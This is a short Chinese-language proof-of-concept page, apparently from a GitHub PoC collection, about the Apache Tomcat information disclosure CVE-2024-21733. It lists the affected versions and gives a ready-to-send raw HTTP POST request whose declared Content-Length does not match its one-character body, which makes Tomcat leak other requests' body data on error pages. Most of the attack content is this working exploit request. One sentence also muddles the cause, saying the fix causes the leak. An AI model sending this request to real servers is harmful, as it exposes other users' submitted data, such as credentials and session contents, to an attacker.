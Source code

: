 ## Apache Tomcat存在信息泄露漏洞( CVE-2024-21733)

Apache Tomcat 信息泄露漏洞（CVE-2024-21733）情报。Apache Tomcat 是一个开源 Java Servlet 容器和 Web 服务器，用于运行 Java 应用程序和动态网页。Coyote 是 Tomcat 的连接器，处理来自客户端的请求并将它们传递Tomcat 引擎进行处理。攻击者可以通过构造特定请求，在异常页面中输出其他请求的body 数据,修复版本中通过增加 finally 代码块,保证默认会重设缓冲区 position 和 limit 到一致的状态，从而造成信息泄露。


## 影响版本
```
从8.5.7到8.5.63
9.0.0-M11到9.0.43
```


## poc
```
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

![image](https://github.com/wy876/POC/assets/139549762/15933e83-bb51-4d91-ba49-c31ab8d27cdb)

